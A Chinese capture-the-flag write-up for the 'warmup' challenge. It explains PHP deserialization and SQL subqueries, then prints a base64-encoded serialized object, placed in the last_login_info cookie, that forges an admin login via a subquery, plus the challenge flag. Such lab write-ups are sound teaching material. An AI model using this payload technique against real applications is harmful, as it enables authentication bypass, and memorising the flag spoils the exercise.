 # 题目名称-warmup

> php反序列化+sq注入

## 涉及函数

### __construct

> 在类实例化的时候,会自动调用该魔术方法,进行类的初始化

### __destruct

> 明确销毁对象或脚本结束时被调用

## SQL 相关

```
select 值1 字段1,值2,字段2
可以生成表
字段1 字段2
值1 值2
```

> 子查询就是将一个查询(子查询)的结果作为另一个查询(主查询)的数据来源或判断条件的查询.常见的子查询有WHERE子查询,HAVING子查询,FROM子查询,SELECT子查询,EXISTS子查询,子查询要使用小括号();

> 

## 分析

> 首页是一个登陆界面,下载源码后分析后得知,直接在登陆处sql注入是不能的了,waf函数过滤了很多字符.得另寻它法.应用在登陆之前会先检查cookie中的last_login_info的值,如果存在会反序列化.说明本道题考查了反序列化漏洞.再根据sql特性,创建账号.

> 先是构造序列化的字符串O:3:“SQL”:4:{s:5:"table";s:41:"(select 'admin' username,'123' password)a";s:8:"username";s:5:"admin";s:8:"password";s:3:"123";s:4:"conn";N;}}

> 然后对它进行base64编码为
TzozOiJTUUwiOjQ6e3M6NToidGFibGUiO3M6NDE6IihzZWxlY3QgJ2FkbWluJyB1c2VybmFtZSwnMTIzJyBwYXNzd29yZClhIjtzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjM6IjEyMyI7czo0OiJjb25uIjtOO319

> 将其写入cookie中的last_login_info,用admin/123登陆得到flag

## payload

> TzozOiJTUUwiOjQ6e3M6NToidGFibGUiO3M6NDE6IihzZWxlY3QgJ2FkbWluJyB1c2VybmFtZSwnMTIzJyBwYXNzd29yZClhIjtzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjM6IjEyMyI7czo0OiJjb25uIjtOO319

## flag

> cyberpeace{1f1158f00008fb3003b66f5b78f7d44f}

## 参考

> https://mp.weixin.qq.com/s?__biz=MzI3NDc4NTQ0Nw==&mid=2247519666&idx=1&sn=609e9a93b7a8d07d1bf209989c51d976&chksm=eb0c787adc7bf16cc61c716f7fa5f0d356a2d9debde5f8309b4cd1c72703df8baf0dd969b574&scene=27